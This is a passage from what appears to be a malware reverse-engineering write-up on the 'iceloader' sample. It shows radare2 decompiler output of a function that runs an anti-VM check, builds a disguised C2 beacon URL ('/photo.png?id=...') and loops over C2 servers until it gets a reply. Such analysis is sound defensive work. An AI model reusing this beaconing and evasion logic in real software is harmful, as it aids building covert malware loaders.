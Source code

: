 As we move on we can see that effectivly, the HTTP requests to the C2 servers are performed:

![hhttpp](https://artik.blue/images/iceloader/http.png)


In here we can use "pdc" in r2 to quickly get the general picture:
```
#include <stdint.h>
 
uint32_t RETRIEVE_FILE (void) {
    int32_t var_1ch_3;
    int32_t var_1ch_2;
    int32_t var_14h;
    int32_t var_18h;
    int32_t var_28h;
    int32_t var_1ch;
    int32_t var_40h;
    int32_t var_4ch;
    int32_t var_144h;
    int32_t var_158h;
    int32_t var_344h_2;
    int32_t var_344h;
    ebx = ecx;
    ecx = &var_1ch;
    edi = edx;
    ANTI_VM ();
    __asm ("rdtsc");
    eax = &var_4ch;
    uint32_t (*wsprintfA)(void, char*, void, uint32_t*, void, void) (eax, "/photo.png?id=%0.2X%0.8X%0.8X%s", 1, *(0x403008), eax, var_1ch);
    *(ebx) = 0;
    eax = &var_158h;
    *(edi) = 0;
    esi = 0x403050;
    ebp = *(wsprintfW);
    void (*ebp)(void, void, void) (eax, 0x402104, 0x403051);
    while (eax != 0xc8) {
        if (*(ebx) != 0) {
            if (*(edi) == 0) {
                goto label_0;
            }
            eax = uint32_t (*GetProcessHeap)(void, uint32_t*) (0, *(ebx));
            uint32_t (*HeapFree)(void) (eax);
        }
label_0:
        uint32_t (*Sleep)(void) (0x1388);
        eax = *(esi);
        esi += eax;
        if (*(esi) == 0) {
            esi = 0x403050;
        }
        *(ebx) = 0;
        eax = esi + 1;
        *(edi) = 0;
        eax = &var_144h;
        void (*ebp)(void, void, void) (eax, 0x402104, eax);
        eax = &var_344h;
        void (*ebp)(void, void, void) (eax, 0x402104, var_4ch);
        eax = &var_158h;
        var_28h = 1;
        var_1ch_2 = eax;
        ecx = &var_1ch_2;
        eax = &var_344h;
        var_1ch_2 = eax;
```